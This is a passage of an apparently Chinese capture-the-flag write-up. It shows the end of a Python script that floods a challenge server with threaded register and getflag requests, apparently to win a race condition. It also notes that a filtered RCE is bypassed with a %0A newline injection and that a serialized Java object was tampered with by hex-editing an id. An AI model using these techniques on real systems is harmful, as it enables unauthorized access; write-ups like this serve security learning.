 ```python
        data = payload, cookies = cookies)
    print r.text

if __name__ == '__main__':
    for i in range(100):
        thread.start_new_thread(register, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        time.sleep(0.2)

```

不要问我为啥那么多getflag……服务器太卡

##### RCE绕过#####

一个有简单过滤的RCE，用%0A换行符即可绕过。

##### Java序列化#####

这题是复盘时候拿出来的，主要开头想法不对，一直在想办法反序列化相应对象。结果最后十六进制修改了id对应的值就拿到Flag了……QAQ

